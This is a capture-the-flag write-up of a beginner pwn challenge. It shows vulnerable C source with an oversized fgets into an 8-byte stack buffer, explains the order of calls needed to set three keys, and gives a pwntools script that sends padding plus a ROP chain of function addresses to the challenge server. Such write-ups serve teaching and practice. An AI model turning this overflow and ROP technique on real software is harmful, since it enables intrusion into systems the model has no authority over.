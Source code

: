 When I competed in Bearcat World Tour CTF 2025 I came across this challenge towards the end of the ctf. This challenge provide the full C source code conveniently (although it was absolutely not necessary to complete this challenge).

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>


void store_a_charstar();
void menu();
void vuln();
void store_floats();
int key1 = 0;
int key2 = 0;
int key3 = 0;
int floatcount = 0;

void setup() {
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
}

int main(int argc, char **argv) {
    setup();
    menu();
    vuln();
}

void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);

}
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}

void menu() {
    puts("Try out this new calling convention!");
    puts("Instead of calling functions directly, you just return to them instead!");
    printf(" > ");
}

void vuln() {
    fflush(stdout);
    char s[8];
	fgets(s, 0x200, stdin);
}
```

This challenge immediately looks pretty straightforward, the vulnerablility is even labled. Simply pass 12 bytes to overflow 's' then the memory location of win(). 

However, the win function checks three keys which are checked before reading the flag. This means we will have to build a very simple ROP chain to set the keys to their expected values before calling the win function. Luckly, this is about as easy as any ROP challenge gets as we just need to figure out what functions need to be run and place their memory addresses after the overflow sequentially. 

```C
void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);

}
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}
```

Looking at these three functions we see that we need to set key3 first so that we are able to set key1 which is required to set key 2. Then key3 needs to be set again as it is set to 0 while setting key2. The functions need to be called in the following order.

```C
number3();
set_key1();
ahhhhhhhh();
food();
number3();
win();
```

After going into ghidra to check the offsets of each of these functions my solve script looked something like this:
```python
from pwn import remote
from pwn import *
# Define the offsets for the keys
win = 0x004012f3
key3 = 0x00401404
key1 = 0x00401397
key2_1 = 0x004013b6
key2_2 = 0x004013e8
def run(conn, payload: bytes):
    conn.sendlineafter("> ", payload)  # Send the payload
    response = conn.recv(1024)  # Read output of remote
    print(response.decode())
    
def solvefunction():
    # Create the payload with the necessary sequence of offsets (keys)
    # Use p64 to pack the addresses as 64-bit little-endian values
    null_byte_string = b'A' * 12 + p64(key3) + p64(key1) + p64(key2_1) + p64(key2_2) + p64(key3) + p64(win)
    return null_byte_string

# Connect to the remote service
conn = remote("chal.bearcatctf.io", 39440)
payload = solvefunction()
run(conn, payload)
 
conn.interactive()
```
This produced the flag for a quick 500 point solve. 